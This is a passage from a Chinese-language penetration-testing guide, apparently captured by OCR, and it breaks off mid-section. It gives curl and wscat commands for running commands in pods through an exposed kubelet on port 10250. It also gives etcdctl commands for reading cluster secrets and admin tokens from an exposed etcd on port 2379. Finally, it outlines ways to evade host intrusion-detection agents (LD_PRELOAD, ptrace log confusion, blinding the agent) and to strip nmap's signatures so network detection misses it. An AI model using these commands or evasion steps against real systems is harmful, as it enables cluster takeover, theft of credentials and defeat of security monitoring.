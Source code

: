 1.  `curl -Gks https://host:10250/exec/{namespace}/{podname}/{containername} \`
2.  `-d 'input=1' -d 'output=1' -d 'tty=1' \`
3.  `-d 'command=whoami'`

上述命令得到 websocket 地址，连接 websocket 得到命令结果：

```plain
wscat -c "https://host:10250/websocket" --no-check
```

当获取到 admin token 后，也可以利用该服务端口在 pod 中执行命令：

```ruby
curl -k -H "Authorization: Bearer $TOKEN" https://host:10250/run/{namespace}/{podname}/{containername} -XPOST -d 'cmd=whoami'
```

### etcd 2379 端口攻击

etcd 中存放着 k8s 集群数据，如果可以成功访问该服务端口，则可以获取集群中的敏感信息，包括 k8s secrets、admin token、AKID 等。

```plain
etcdctl --endpoints=https://host:2379 ls
```

带着 cert 访问 etcd：

```plain
etcdctl --endpoints=https://host:2379 --cacert=ca.crt --key=etcd.key --cert=etcd.crt endpoint health
```

# IDS

本章介绍的 IDS 包括 HIDS 和 NIDS。

## HIDS

HIDS 涉及到如何绕过服务器上的 agent。  
业务服务器上默认都部署了 agent，如何绕过这些 agent 也是一个很大的学问。这些 agent 常常会 hook execve 来获取和判断执行的命令是否恶意。  
这里有几个思路和大家一起讨论：

-   滞空 LD\_PRELOAD 来绕过用户态的 hook，busybox 同理
-   利用代码来执行命令
-   利用 ptrace 进行日志混淆
-   关闭或致盲 agent 通信

## NIDS

NIDS 涉及到如何绕过网络设备进行扫描。  
在内网渗透中，我们会使用 nmap 去做网络探测，而 nmap 自带的一些特征会导致被安全设备识别和拦截。因此我们需要对 nmap 做一些修改，比如更改 nselib/http.lua，把 nmap 字样删除：  
![image-20201211101437662](assets/1700701638-72390f5104dfc0b001d06dcf70beba1e.png)  
tcpip.cc 更改 windows 窗口大小：  